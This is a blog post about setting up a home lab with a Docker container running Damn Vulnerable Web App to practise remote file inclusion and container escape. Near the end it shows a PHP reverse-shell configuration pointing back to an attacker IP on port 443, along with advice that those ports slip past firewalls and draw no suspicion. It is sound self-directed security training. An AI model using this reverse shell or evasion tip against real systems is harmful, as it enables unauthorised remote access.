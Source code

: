 ```yaml
---
layout: post
title: Attacking Yourself First
date:   2016-12-27 23:43:12 -0600
Categories: homelab docker webapp pentesting
---
```


## Why not just attack someone else?

Because it's illegal. 

### Attacking a home lab

If you're doing this on a budget, you have a few ways to go about this. You can either use old machines you have laying around to install OSes and applications on and attack those systems or you can do something virtualized. Since I'm doing this on a budget and don't want to reinstall OSes all day, I'm doing this virtualized. I'll be doing this in docker again because why not, but you could just as easily do something in a VM and snapshot it before you really attack. I also am very interested in how docker and containers complicate breaking into systems, so this is as good of a time as any to figure it out.


For this lab, I'm using a docker container of LAMP and a local installation of Damn Vulnerable Web Applications. Let's first get our docker container.

### OK let's go

I'm working off a different Ubuntu image than I usually work off of because I want to be sure my exploits will work (cheating, I know). If we go [here](http://releases.ubuntu.com/) we can find old version of Ubuntu and it even tags the date they were released. I downloaded and installed Server 14.04.5 and installed a few applications

~~~
<Install the OS, select the SSH Server as the additional functionality>
sudo apt-get install git docker.io
sudo usermod -aG docker $USER
<reboot or log out and back in>
~~~

That's enough believe it or not, the rest will come with our container.

Getting this built took longer than I expected, but if you check [my github](https://github.com/remotephone) page you'll see a repo for dvwa-lamp. This is a docker container than includes the [Damn Vulnerable Web App](https://github.com/ethicalhack3r/DVWA) bundled inside a lamp container I forked off [tutum](https://github.com/tutumcloud/lamp).

You can follow the instructions in the README or do just do this:

~~~
git clone https://github.com/remotephone/dvwa-lamp.git
cd dvwa-lamp
docker build -t remotephone/dvwa-lamp .
docker run -d -p 80:80 -p 3306:3306 remotephone/dvwa-lamp 
<wait some seconds and then browse to...>
http://localhost/setup.php
~~~

And you're set! Install the database by completed the setup and login as admin/password. 

Now let's get started. We're going to move from a web app to a Docker container and see if we can make it to the host. For the purposes of this demo, I'm going easy mode, we're going to set the security level to "Low" in DVWA Security in the sidebar and then go to the File Inclusion tests.

[Remote File Inclusion](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/) is a nasty vulnerability that allows you to manipulate insecurely coded requests for resources to instead call to resources you control. While the web server may intend to display information from a local file on the webserver, you can instead redirect the webserver to call a file you host and even execute the code if the server knows how to interpret it. One of the most simple examples is tricking a server to  call a php script you host and excuting that to send you a reverse shell.

For this exercise, I'll use [laudunum](https://blog.secureideas.com/2014/01/professionally-evil-software-laudanum.html). While the link for the latest release doesn't work, you can find it in the laudunum package as part of Kali linux. We're going to use the RFI vulnerability to call a webshell we host on our local web server, listen with ncat to catch our reverse shell, use the shell to upload a kernel exploit, and see if we can use that to escape our container. 

To make this work, you need a few things. First, get your container running. Next, get you webshells ready in your /var/www/html directory. I'm using php-reverse-shell.php from the laudunum package and I've updated the file to point back to my attacking server. I always use ports 443 or 80 if possible for reverse shells, firewalls tend to allow this traffic out and it's not suspicious if someone netstats an affected server. This is the part of the webshell I modified:

~~~
$VERSION = "1.0";
$ip = '192.168.1.20';  // CHANGE THIS
$port = 443;       // CHANGE THIS
~~~

It's conveniently marked with "CHANGE THIS" so you know what to update. If you want to change some of the actions under $shell, you can, especially if for some reason bash or sh is not in the /bin/ directory. 


 
